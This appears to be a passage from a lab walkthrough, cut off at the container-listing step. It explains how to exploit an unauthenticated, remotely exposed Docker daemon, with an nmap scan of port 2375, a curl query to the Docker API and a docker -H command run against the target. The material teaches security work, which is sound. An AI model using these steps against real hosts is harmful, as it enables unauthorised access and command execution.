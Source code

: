    ```bash

Docker can be remotely administrated. For example, using management tools such as Portainer or Jenkins to deploy containers to test their code (yay, automation!).

## The Vulnerability

The Docker Engine will listen on a port when configured to be run remotely. The Docker Engine is easy to make remotely accessible but difficult to do securely. The vulnerability here is Docker is remotely accessible and allows anyone to execute commands. First, we will need to enumerate.

## Enumerating: Finding Out if a Device Has Docker Remotely Accessible

By default, the engine will run on port 2375. We can confirm this by performing an Nmap scan against your target (10.10.71.237) from your AttackBox.

```bash
nmap -sV -p 2375 10.10.71.237

Starting Nmap 7.60 ( https://nmap.org ) at 2024-11-19 16:54 GMT
Nmap scan report for ip-10-10-71-237.eu-west-1.compute.internal (10.10.71.237)
Host is up (0.00016s latency).

PORT     STATE SERVICE VERSION
2375/tcp open  docker  Docker 20.10.20
MAC Address: 02:70:47:FD:07:CF (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 82.57 seconds

```

Looks like it's open; we're going to use the curl command to start interacting with the exposed Docker daemon. Confirming that we can access the Docker daemon: curl `http://10.10.71.237:2375/version`

```bash
curl http://10.10.71.237:2375/version
{"Platform":{"Name":"Docker Engine - Community"},"Components":[{"Name":"Engine","Version":"20.10.20","Details":{"ApiVersion":"1.41","Arch":"amd64","BuildTime":"2022-10-18T18:18:12.000000000+00:00","Experimental":"false","GitCommit":"03df974","GoVersion":"go1.18.7","KernelVersion":"5.15.0-1022-aws","MinAPIVersion":"1.12","Os":"linux"}},{"Name":"containerd","Version":"1.6.8","Details":{"GitCommit":"9cd3357b7fd7218e4aec3eae239db1f68a5a6ec6"}},{"Name":"runc","Version":"1.1.4","Details":{"GitCommit":"v1.1.4-0-g5fd4c4d"}},{"Name":"docker-init","Version":"0.19.0","Details":{"GitCommit":"de40ad0"}}],"Version":"20.10.20","ApiVersion":"1.41","MinAPIVersion":"1.12","GitCommit":"03df974","GoVersion":"go1.18.7","Os":"linux","Arch":"amd64","KernelVersion":"5.15.0-1022-aws","BuildTime":"2022-10-18T18:18:12.000000000+00:00"}
```

## Executing Docker Commands on Our Target

For this, we'll need to tell our version of Docker to send the command to our target (not our own machine). We can add the "-H" switch to our target. To test if we can run commands, we'll list the containers on the target: `docker -H tcp://10.10.71.237:2375 ps`
